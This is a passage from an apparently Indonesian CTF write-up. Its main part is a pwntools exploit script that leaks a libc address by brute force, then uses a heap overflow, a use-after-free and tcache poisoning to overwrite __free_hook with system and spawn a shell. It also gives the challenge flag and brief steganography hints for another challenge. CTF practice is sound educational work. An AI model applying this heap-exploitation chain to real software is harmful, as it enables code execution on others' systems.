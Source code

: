 ```python

            # check if leaked content exist, if not then nibble byte brute force is incorrect
            if len(resp) > 8:
                print()
                print(resp)
                break
            else:
                raise Exception()
        except:
            iter+=1
            print('.', end='')
            p.close()
            pass

print()
log.success(f'found valid leak, total run {iter}x')
# print(p.pid,resp)
leak_addr = u64(resp[8:resp.find(b'\x7f\x00')+1].ljust(8, b'\x00'))
libc.address = leak_addr - libc.sym['_IO_2_1_stdin_']
log.info(f'_IO_2_1_stdin_ leak @ 0x{leak_addr:x}')
log.info(f'libc base @ 0x{libc.address:x}')

# overflow + uaf + tcache poison
add(0, 0x28, b'A'*8)
add(1, 0x28, b'B'*8)
add(2, 0x28, b'C'*8)
add(3, 0x28, b'/bin/sh\x00')
add(16, 0xffffffff+1, b'')
delete(0)
delete(2)
edit(1, b'X'*0x28 +
        p64(0x31) +
        p64(libc.sym['__free_hook'])
)
add(2, 0x28, b'X') # popping chunk from fastbin freelist
add(0, 0x28, p64(libc.sym['system'])) # overwrite __free_hook to system
# spawn shell
log.success('spawning shell!')
delete(3)
p.interactive()
# glacierctf{Now_1Mag1n3_L4t3st_L1bc?!}
```

# misc
---
## The Climber

1. foremost gambar
2. check pakek https://stegonline.georgeom.net/image
3. bawah pojok kanan nyempil
